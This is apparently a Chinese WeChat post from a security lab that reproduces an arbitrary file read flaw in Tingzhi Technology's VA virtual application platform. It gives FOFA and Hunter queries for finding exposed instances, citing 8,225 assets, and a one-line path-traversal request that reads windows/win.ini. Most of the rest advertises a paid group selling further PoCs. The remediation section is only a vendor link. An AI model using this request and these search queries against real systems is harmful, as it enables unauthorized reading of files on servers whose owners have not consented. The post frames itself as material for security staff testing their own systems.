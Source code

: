 #  【漏洞复现】霆智科技 VA虚拟应用平台 任意文件读取漏洞

[ 天擎攻防实验室 ](javascript:void\(0\);)

**天擎攻防实验室** ![]()

微信号 gh_2fb077348503

功能介绍 天擎攻防实验室，致力于分享最新漏洞情报以及复现!

____

___发表于_

收录于合集

#漏洞复现 16 个

#sql注入 3 个

**0x01  阅读须知**

**天擎攻防实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！** ****

 **0x02 漏洞描述**

（一） VA虚拟应用平台 ** ******

霆智科技的VA虚拟应用平台是一个创新的技术平台，旨在为用户提供虚拟助手（Virtual
Assistant）的功能和服务。虚拟助手是一种人工智能系统，通过自然语言处理、机器学习和其他相关技术，能够与用户进行对话，并执行各种任务和服务。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180615.png)

FOFA语法：

  * 

    
    
    body="EAA益和应用接入系统"

hunter语法：

  * 

    
    
    web.body="EAA益和应用接入系统"

 ** ** ** ** **  hunter共 **8,225** 条资产** **  
**  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180616.png)

  
（二）  漏洞poc

  *   *   *   *   * 

    
    
      
    GET /..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini HTTP/1.1Host:  
      
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180617.png)

 **更多漏洞POC发布在知识星球**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180619.png)  

  

 ** **  星球的最近主题和星球内部工具一些展示****

![]() ** ******

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180620.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180621.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180622.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180623.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180624.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180625.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180626.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180627.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180619.png)  

  

 ** **星球内部成员的出货****

 **  
** **  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180629.png)

 **  
** **  
**  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180630.png)

 **  
** **  
** **Web安全漏洞最新1day分享** **漏洞挖掘技巧分享**  
 **** **   加入星球请扫描下方二维码，更多精彩，敬请期待**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180632.png)

  

  

  

  

  

 **0x03  修复方案**

 **官方修复缓解措施**

 **补丁链接**

 **http://www.tzfse.com.cn/**

 ****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

